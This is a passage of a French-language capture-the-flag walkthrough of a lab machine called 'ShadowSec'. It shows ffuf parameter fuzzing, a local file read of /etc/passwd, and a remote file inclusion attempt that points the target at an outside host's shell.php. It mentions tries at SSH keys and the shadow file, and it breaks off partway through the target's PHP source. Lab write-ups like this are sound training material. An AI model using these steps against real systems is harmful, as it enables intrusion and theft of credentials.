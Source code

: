 Ce script PHP nous retourne `Nothing to see here.`

Il attend vraisemblablement des paramètres, on va lui en donner à l'aide de `ffuf` :

```console
$ ffuf -u "http://192.168.242.130/ShadowSec/bydataset.php?FUZZ=1" -w tools/wordlists/common_query_parameter_names.txt -fs 21

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.242.130/ShadowSec/bydataset.php?FUZZ=1
 :: Wordlist         : FUZZ: tools/wordlists/common_query_parameter_names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 21
________________________________________________

file                    [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [5699/5699] :: Job [1/1] :: 264 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

A l'aide de ce paramètre je peux lire des fichiers comme `/etc/passwd` qui contient deux utilisateurs (en dehors des classiques).

```
pycrtlake:x:1000:1000:pycrtlake,,,:/home/pycrtlake:/bin/bash
chatlake:x:1001:1001::/home/chatlake:/bin/sh
```

Alors directory traversal ou faille d'inclusion ? Je tente le RFI :

```
http://192.168.242.130/ShadowSec/bydataset.php?file=http://192.168.242.1:8000/shell.php
```

Malheureusement pas d'interprétation du PHP !

Pas d'accès non plus  aux clés SSH, fichier shadow ou `/etc/inspircd/inspircd.conf`.

Que faire ? Commençons par lire le script PHP :

```php
<?php

function decrypt($input) {
    $reversed = strrev($input);
    echo "Reversed: " . $reversed . "\n";

    $decoded = base64_decode($reversed);
    echo "Decoded: " . $decoded . "\n";

    if ($decoded === false) {
        echo "Base64 decoding failed.\n";
        return false;
    }

    if (strpos($decoded, 'cmd:') === 0) {
```